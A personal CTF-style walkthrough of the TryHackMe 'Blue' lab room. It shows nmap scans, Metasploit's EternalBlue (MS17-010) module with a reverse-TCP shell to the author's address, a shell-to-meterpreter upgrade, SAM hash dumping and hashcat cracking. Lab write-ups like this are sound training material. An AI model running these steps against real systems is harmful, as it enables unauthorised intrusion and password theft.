







*2021-08-26*

*kimm3*

# Walkthrough: Blue
Platform: TryHackMe

Difficulty: Easy

- [Link](https://tryhackme.com/room/blue)

As this is a room on TryHackMe I don't explore every single possibility, I awnser the questions and move on. I won't post any awnsers to questions here, or even refer to them - just showing how to hack the box, as intended.
## Setup


## Scans and enumeration
```
script history/enum1
export IP=10.10.191.24
sudo nmap $IP -p- -Pn -A -oA scans/nmap-init
```



`sudo nmap $IP -p 135,139,445 --script default,vuln -Pn -oA scans/nmap-smb-vuln`



And thats a reason to not use SMBv1.

`searchsploit ms17-010`


## Exploit
```
script history/target1
msfconsole
search ms17-010
use 0
info
set RHOSTS 10.10.191.24
show payloads
set 15
run
```



```
show payloads
set 39
run
```

The exploit failed a bunch of times, the two things I did(not sure if any of them made a difference) was to set LHOST to my tunnel ip and use payload 39(shell/reverse_tcp).



## Post Exploitation
Cracking Jons password.

```
search shell meterpreter
use 19 #post/multi/manage/shell_to_meterpreter
set SESSION 1
set LHOST 10.8.210.115
run
```

I ran it two times and then the host stopped responding, I restarted the machine and set the payload for the eternalblue module to a meterpreter(reverse tcp) and it worked. The exploit/box is not always consistent in what works or not, but a meterpreter is possible.

Once we have a meterpreter, run `hashdump` to retrieve hashes from the SAM.



`hashcat -a 0 -m 1000 creds/JonHash sl/Passwords/Leaked-Databases/rockyou.txt`



Cracked in about 2 secs.
